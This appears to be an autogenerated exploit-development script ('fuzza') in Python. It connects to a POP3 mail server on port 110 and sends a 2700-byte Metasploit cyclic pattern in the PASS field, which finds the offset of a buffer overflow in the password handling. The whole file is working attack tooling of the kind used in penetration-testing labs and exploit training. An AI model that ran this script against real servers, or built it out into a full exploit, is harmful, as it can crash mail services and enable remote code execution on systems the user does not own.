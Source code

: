 **`pattern.py`**
```python
#!/usr/bin/env python
"""fuzza autogenerated."""

from __future__ import print_function
import socket

def str2b(data):
    """Python2/3 compat."""
    try:
        return data.encode('latin1')
    except UnicodeDecodeError:
        return data

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

pattern = (
    "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9"
    "Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9"
    "Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9"
    "Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9"
    "Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9"
    "Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9"
    "As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9"
    "Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9"
    "Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9"
    "Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9"
    "Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9"
    "Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9"
    "Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9"
    "Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9"
    "Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9"
    "Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9"
    "Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9"
    "Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9"
    "Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9"
    "Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9"
    "Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9"
    "Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9"
    "Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9"
    "Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9"
    "Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9"
    "Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9"
    "Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9"
    "Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2Df3Df4Df5Df6Df7Df8Df9"
    "Dg0Dg1Dg2Dg3Dg4Dg5Dg6Dg7Dg8Dg9Dh0Dh1Dh2Dh3Dh4Dh5Dh6Dh7Dh8Dh9Di0Di1Di2Di3Di4Di5Di6Di7Di8Di9"
    "Dj0Dj1Dj2Dj3Dj4Dj5Dj6Dj7Dj8Dj9Dk0Dk1Dk2Dk3Dk4Dk5Dk6Dk7Dk8Dk9Dl0Dl1Dl2Dl3Dl4Dl5Dl6Dl7Dl8Dl9"
)  # 2700 bytes from pattern_create.rb

print('Trying to send %s bytes unique chars...' % (str(len(pattern))))
try:
    s.connect(('mail.example.tld', 110))
    s.recv(1024)
    s.send(str2b('USER test' + '\r\n'))
    s.recv(1024)
    s.send(str2b('PASS ' + pattern + '' + '\r\n'))
    s.recv(1024)
    s.send(str2b('QUIT' + '\r\n'))
    print('done')
except:
    print('Could not connect')
```
